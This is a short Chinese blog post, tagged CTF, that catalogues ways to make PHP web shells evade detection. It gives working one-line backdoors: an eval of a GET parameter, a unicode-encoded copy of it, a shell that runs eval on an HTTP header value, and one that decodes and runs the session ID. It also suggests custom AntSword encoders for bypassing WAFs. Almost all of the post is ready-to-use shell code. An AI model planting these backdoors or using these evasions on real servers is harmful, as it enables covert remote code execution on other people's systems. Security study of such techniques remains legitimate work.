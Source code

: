 ```yaml
---
title: GetShell
date: 2020-10-09 20:13:07
tags: CTF
---
```


# GetShell 常用免杀大法

## 一、编码大法

(1).一句话马子本身采用编码

```
原文：<?php @eval($_GET(a)):?>
转码后：在提交的post的时候可以直接使用\u0026\u006c\u0074\u003b\u003f\u0070\u0068\u0070\u0020\u0040\u0065\u0076\u0061\u006c\u0028\u0024\u005f\u0047\u0045\u0054\u0028\u0061\u0029\u0029\u003a\u003f\u0026\u0067\u0074\u003b
```

(2)，蚁剑链接时编码

蚁剑在getshell的时候，可以选取使用编码器和解码器，这个时候可以使用自己的独家编码器进行实际的操作，并进行花式绕过waf。蚁剑的编码器是采用的js语言进行编写的，简易操作。



## 二、花招大法

(1).通过getallheaders()来获取shell

```
<?php 
	echo 1;
	print(pos(getallheaders()));
	eval(pos(getallheaders()));
	?>
```

![](https://i.loli.net/2020/10/11/XsqMTPCSbgWezav.png)

这样配置，密码是1；

(2)同理可以使用sessionid来操作，同时搭配编码器，这就很舒服了。

```
<?php eval(hex2bin(session_id(session_start())));?>
```

这里的hex2bin可以改为base64

